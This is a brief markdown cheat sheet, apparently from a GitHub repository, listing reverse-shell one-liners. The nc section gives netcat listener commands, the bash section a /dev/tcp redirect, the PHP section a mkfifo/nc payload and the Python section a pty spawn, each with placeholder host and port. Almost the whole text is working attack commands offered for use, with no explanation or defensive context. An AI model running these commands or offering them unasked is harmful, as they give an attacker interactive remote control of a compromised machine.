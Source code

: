 # 🔃 Reverse shell

## nc

```bash
nc -nlvp <PORT> -e /bin/sh
nc <HOST> <PORT>
```

## Bash and SH

```bash
bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1
nc -lnvvp <PORT> -e /bin/sh
```

## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```

## Python

```py
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

